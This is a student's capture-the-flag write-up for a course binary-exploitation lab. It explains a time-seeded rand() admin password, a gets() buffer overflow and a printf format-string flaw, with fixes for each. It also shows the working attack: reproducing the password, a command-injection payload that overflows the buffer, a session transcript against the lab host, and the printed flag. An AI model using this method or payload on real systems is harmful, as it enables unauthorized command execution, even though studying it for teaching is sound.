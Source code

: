 # Writeup 8 - Binaries II

Name: Marco Roxas
Section: 0101

I pledge on my honor that I have not given or received any unauthorized assistance on this assignment or examination.

Digital acknowledgement: Marco Roxas

## Assignment Writeup

### Part 1 (100 pts)
Answer the following questions regarding the server executable (for which source is provided).

1. How is the per-session administrator password generated? Are there any inherent weaknesses in this implementation?

Each password character is randomly generated by using the rand() function to produce each printable character. Yes, several. The rand() function is seeded with time(0) which causes it to generate the same sequence of numbers (hence the same password) within each current second. Also, the rand() function is not cryptographically secure. Another is that the password is of a known length. And it's assumed that the admin knows what the password is by using the same algorithm, which is as insecure as hardcoding a password.

2. Describe two vulnerabilities in this program. Provide specific line numbers and classifications of the vulnerability. Explain potential ramifications as well as ways to avoid these vulnerabilities when writing code.

One vulnerability is on line 68, gets(buff) introduces a buffer-overflow vulnerability. This allows the attacker to overwrite the neighboring char commands[64] array with a command of the attacker's choosing (eg, ls; cat flag.txt). To avoid this vulnerability fgets() can be used to limit the characters read into the buffer.

Another is a format-string vulnerability printf(output) on line 46. This allows the attacker to view memory contents by placing %k (k converts to x) preceded by a similarly-ciphered memory address. To prevent these a proper format string is used for printf().

3. What is the flag?

`CMSC389R-{expl017-2-w1n}`

4. Describe the process you followed to obtain the flag: vulnerabilities exploited, your inputs to the server in a human-readable format, etc. If you create any helper code please include it.

server.c was pared down and saved in try.c to facilite viewing the generated password. But initially the password it generates doesn't match the remote server password for some reason, perhaps because of time differences.

Running nmap initially on the remote host doesn't seem to reveal anything (it seems to be protected well), but in investigating whether the time is off by a few seconds on the server, port 13 (daytime server port) was contacted on the server using nc, with no response. Then trying port 22 (the ssh port) revealed what could be used to identify the server version:

~~~~
$ nc ec2-18-222-89-163.us-east-2.compute.amazonaws.com 22
SSH-2.0-OpenSSH_7.6p1 Ubuntu-4ubuntu0.3

Protocol mismatch.
~~~~

A web search for the above string showed Ubuntu 18.04.3. Running the ./server binary on the same Ubuntu version was tried, and that resulted in a matching password with the remote server. Thereafter, the buffer overflow on line 68 was exploited with a string used for command injection.

The payload string used is the first line shown here:

~~~~
whoami;ls -l;cat *;ps -aux;find; whoami;ls -l;cat *;ps -aux;find;
         1111111111222222222233333333334444444444555555555566666666667777777777
1234567890123456789012345678901234567890123456789012345678901234567890123456789
~~~~

The idea was to fill in the buffer with 32 bytes and have the match succeed since it's repeated in the subsequent list of valid commands. A shorter command string can be used provided that it's padded with spaces.

An abbreviated session transcript is shown below with inputs manually typed in.

~~~~
$ ./try && nc ec2-18-222-89-163.us-east-2.compute.amazonaws.com 1337
ddW;<7D@RjCL-DjA
Choose an option:
1. encrypt
2. decrypt
3. authenticate
4. execute command
0. exit
> 3
Please provide admin password: 
ddW;<7D@RjCL-DjA
password successful, privilege elevated
Choose an option:
1. encrypt
2. decrypt
3. authenticate
4. execute command
0. exit
> 4
Admin, provide a command to execute: whoami;ls -l;cat *;ps -aux;find; whoami;ls -l;cat *;ps -aux;find;
Executing "whoami;ls -l;cat *;ps -aux;find;"
sh: 1: whoami: not found
total 44
drwxr-x--- 1 0 1000  4096 Oct 28 05:04 bin
drwxr-x--- 1 0 1000  4096 Oct 28 05:04 dev
-rwxr----- 1 0 1000    25 Oct 28 04:29 flag
drwxr-x--- 1 0 1000  4096 Oct 28 05:04 lib
drwxr-x--- 1 0 1000  4096 Oct 28 05:04 lib32
drwxr-x--- 1 0 1000  4096 Oct 28 05:04 lib64
-rwxr-x--- 1 0 1000 19716 Oct 28 05:11 server
cat: bin: Is a directory
cat: dev: Is a directory
CMSC389R-{expl017-2-w1n}
cat: lib: Is a directory
cat: lib32: Is a directory
cat: lib64: Is a directory
....
~~~~

